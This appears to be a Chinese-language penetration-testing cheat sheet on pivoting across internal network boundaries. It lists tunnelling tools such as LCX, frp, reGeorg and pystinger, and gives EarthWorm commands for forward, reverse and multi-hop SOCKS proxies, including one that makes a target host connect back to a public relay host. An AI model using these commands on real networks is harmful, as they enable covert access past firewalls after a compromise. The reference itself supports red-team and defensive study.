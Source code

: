 ### 内网跨边界转发 
* [NC端口转发](https://blog.csdn.net/l_f0rm4t3d/article/details/24004555) 
* [LCX端口转发 ](http://blog.chinaunix.net/uid-53401-id-4407931.html)
* [nps](https://github.com/cnlh/nps) -> 个人用觉得比较稳定 ～
* [frp](https://github.com/fatedier/frp)
* 代理脚本 
    1. [Tunna ](https://github.com/SECFORCE/Tunna)
    2. [Reduh ](https://github.com/sensepost/reDuh)
* ... 
  
### 内网跨边界代理穿透 
#### [EW](https://rootkiter.com/EarthWorm/) 
正向 SOCKS v5 服务器:
```
./ew -s ssocksd -l 1080
```
 反弹 SOCKS v5 服务器:
a) 先在一台具有公网 ip 的主机A上运行以下命令：
```
$ ./ew -s rcsocks -l 1080 -e 8888 

```
b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
```
$ ./ew -s rssocks -d 1.1.1.1 -e 8888 
```
多级级联
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999
$ ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
```
lcx_tran 的用法
```
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
```
lcx_listen、lcx_slave 的用法
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
```
“三级级联”的本地SOCKS测试用例以供参考
```
$ ./ew -s rcsocks -l 1080 -e 8888
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
$ ./ew -s lcx_listen -l 9999 -e 7777
$ ./ew -s rssocks -d 127.0.0.1 -e 7777
```
#### [Termite](https://rootkiter.com/Termite/) 
使用说明:https://rootkiter.com/Termite/README.txt 
#### 代理脚本 
reGeorg :https://github.com/sensepost/reGeorg
Neo-reGeorg:https://github.com/L-codes/Neo-reGeorg
pystinger(毒刺):https://github.com/FunnyWolf/pystinger
ABPTTS:https://github.com/nccgroup/ABPTTS

